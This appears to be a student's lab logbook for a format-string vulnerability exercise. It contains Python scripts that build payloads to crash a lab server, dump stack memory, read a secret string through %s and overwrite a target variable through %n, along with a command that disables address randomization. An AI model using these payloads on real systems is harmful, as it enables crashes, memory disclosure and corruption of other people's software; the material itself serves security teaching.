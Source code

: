 # Log Book 6

## Environment Setup

### Disable adress randomization

`sudo sysctl -w kernel.randomize_va_space=0`

### Server output

This is a sample output of the server.

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd840
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 6 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd768
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## Task 1

For this task we had to construct a simple payload to exploit the format-string
vulnerability in the server. By analyzing the program source code we can see
that the program reads user input into the buf variable. Then, this data is
passde to `myprintf()` to print out the data. We were able to crash the server
by filling the buf variable with multiple _%s_.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

## Task 2

### Task 2.A

The objective of this task is to print out the data on the stack and to print
out the first four bytes of our input. To do this we started by choosing some
unique numbers (4 bytes) so we can immediately tell when they are printed out.
We chose 0xaabbccdd. The rest of the payload is filled with 64 _%x_ format
specifiers.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

n = 64
x = "%x"
for i in range(4, 4 + 2 * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 2A](./LOGBOOK6_img/task_2_A.png)

### Task 2.B

For this task there was a secret message string stored in the heap area that we
had to find. For this task, the first four bytes of the payload were filled with
the secret message address that was given. Then, our input is followed by 63
_%x_ format specifiers which will print out the data on the stack we finish by
adding a _%s_ format specifier that will print the secret message string, using
the address stored in the beginning of our buffer.

The secret message string was: "A secret message"

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_addr  = 0x080b4008
content[0:4]  =  (secret_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 2B](./LOGBOOK6_img/task_2_B.png)

## Task 3

### Task 3.A

In this sub-task we are asked to change the target value to a different value.
To achieve this, we started by setting the first four bytes of our payload as
the first bytes of the target address given to us. Next, we fill the payload
with 63 _%x_ format specifiers followed by a _%n_ which will load a different
value to the variable pointed by the target's reference.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 3A](./LOGBOOK6_img/task_3_A.png)

### Task 3.B

This sub-task is similar to the previous one. However, it specifies the final
value of the target variable which is 0x5000. This time our payload starts the
same (with the target's reference first).

We make use of left-padding on number printting to get the needed number of
chars printed. The number of chars printed is the number that will be stored on
the target variable.

```py
#!/usr/bin/python3
import sys
from math import floor

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n_bytes_to_print = 0x5000
n = 64 - 1
x_size = int(floor(n_bytes_to_print/n))
x = "%0" + str(x_size) + "x"
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# write number of written bytes to var
s_offset = skip_b + len(x) * n
# need to subtract 4 because it will write 4 bytes for the string
remaining = (n_bytes_to_print - (x_size * n)) - 4
n_str = "0"*remaining + "%n"
content[s_offset:s_offset+len(n_str)] = (n_str).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 3B](./LOGBOOK6_img/task_3_B.png)
